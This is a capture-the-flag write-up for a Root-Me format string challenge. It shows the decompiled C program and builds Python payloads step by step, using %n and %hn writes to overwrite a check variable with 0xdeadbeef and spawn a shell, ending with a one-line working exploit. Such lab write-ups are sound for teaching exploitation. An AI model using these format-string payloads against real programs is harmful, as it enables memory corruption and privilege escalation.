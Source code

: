 
###S0lv3d by H4yicl3

First I download binary file with my scp-script
```
#!/bin/sh
echo "password = app-systeme-$1"
scp -P2222 app-systeme-$1@challenge02.root-me.org:./$1 ./

then ./scp [name_of_challenge]
```

I use IDA to analysis the code .
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int result; // eax@6
  int v4; // edx@8
  int check; // [sp+28h] [bp-90h]@1
  int buf; // [sp+2Ch] [bp-8Ch]@3
  int stackcookie; // [sp+ACh] [bp-Ch]@1

  stackcookie = *MK_FP(__GS__, 20);
  check = 0x4030201;
  if ( argc <= 1 )
    exit(0);
  memset(&buf, 0, 0x80u);
  printf("check at 0x%x\n", &check); 		//not bug
  printf("argv[1] = [%s]\n", argv[1]);		//not bug
  snprintf((char *)&buf, 0x80u, argv[1]);
  if ( check != 0x4030201 && check != 0xDEADBEEF )
    puts("\nYou are on the right way !");
  printf("fmt=[%s]\n", &buf);			//not bug
  printf("check=0x%x\n", check);		//not bug 
  result = check;
  if ( check == 0xDEADBEEF )
  {
    puts("Yeah dude ! You win !");
    result = system("/bin/dash");
  }
  v4 = *MK_FP(__GS__, 20) ^ stackcookie;
  return result;
}
```
Try to understand the program you know!
The 4 line printf is safe !! but it give us more information like a vuln!
>The first we need to find the address of check
>Then we must modify it become 0xdeadbeef
>after we have controled /bin/dash
How can?
%n give us to midify the address we point in format string
%+offset+$+n give us modify specific position you know

try to read it maybe
chrome-extension://oemmndcbldboiebfnladdacbdfmadadm/https://www.exploit-db.com/docs/28476.pdf

Maybe next !!
the script i try 
```python
A="A"*4
padding ="%x_"*50
print A+padding
```
then i run this
```
python ch14.py >input
./ch14 `cat input`
check at 0xffffd648
argv[1] = [AAAA%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_]
fmt=[AAAAf7fd8b48_1_0_1_ffffd6e4_0_0_4030201_41414141_64663766_38346238_305f315f_665f315f_64666666_5f346536_5f305f30_30333034_5f3130]
check=0x4030201
```
>the first line you see the address of check (0xffffd648) you know !
>the third line you see the string"AAAA" i import at first then we see in fmt have the value 0x41414141 . it is the address we can insert !
>we can change "AAAA" become address of check ! you know ?
>and offset 0x41414141 is 9 ! we can count
>so we can use %+offset+$n to modified the check value !! maybe!

the script i change after is
```python
address="\x48\xd6\xff\xff"
padding ="%9$hn"
print address+padding
```
the result we get
```
./ch14 `cat input`
check at 0xffffd648
argv[1] = [H���%9$hn]

You are on the right way !
fmt=[H���]
check=0x4030004
```
we get "You are on the right way!"
So we just modified 0x40302010 become 0x4030004
that mean we just changed the 2 byte after
We want to change 2 byte before we need change 0xffffd648 become 0xffffd650
try to understand that with $n used to modify 2 byte so we need to add a address and modify 2byte next !! You know ?
>but we need to modify 0x4030004 be come 0x403beef before
0xbeef=48879 but we have 0004 so we need 48879-4 = 48875
```python
address="\x48\xd6\xff\xff"
padding ="%48875d%9$hn"  # add with % numberd (%48875d)
print address+padding
```
the result
```
./ch14 `cat input`
check at 0xffffd648
argv[1] = [H���%48875d%9$n]
You are on the right way !
fmt=[H���                                                                                                                         ]
check=0xbeef
```
we get 0xbeef 
so we add the 2 byte before by next python script
```python
address="\x38\xd6\xff\xff"
address2="\x3a\xd6\xff\xff"
padding ="%48875d%9$n"
padding +="%10$n"
print address + address2 + padding
```
>notice: i change address 0xffffd648 become 0xffffd638 .
because the result is
```
./ch14 `cat input`
check at 0xffffd638
argv[1] = [8���:���%48875d%9$n%10$n]
```

You are on the right way !
fmt=[]
check=0xbef3bef3
now the check is at 0xffffd638 !!
and we change check become 0xbef3bef3 ? 0xbeef ?
>ok we try get 48875-4 be cause we already add 1 address with 4 byte
>4 byte next is 0xdead !! 0xdead -0xbeef = 8126
the python script now look like
```python
address="\x38\xd6\xff\xff"
address2="\x3a\xd6\xff\xff"
padding ="%48871d%9$n"
padding +="%8126d%10$n"
print address + address2 + padding
```
48875-4 =48871
%8126d added
the result is 
```
./ch14 `cat input`
check at 0xffffd638
argv[1] = [8���:���%48871d%9$n%8126d%10$n]
fmt=[]
check=0xdeadbeef
Yeah dude ! You win !
$ 
```

Now we can  cat .passwd!! GLHF!

the following script in 1 line
```python
./ch14 $(python -c 'print "\x38\xfb\xff\xbf\x3a\xfb\xff\xbf"+"%48871d%9$n%8126d%10$n"')
check at 0xbffffb38
argv[1] = [x���z���%48871d%9$n%8126d%10$n]
fmt=[]
check=0xdeadbeef
Yeah dude ! You win !
$ 
```
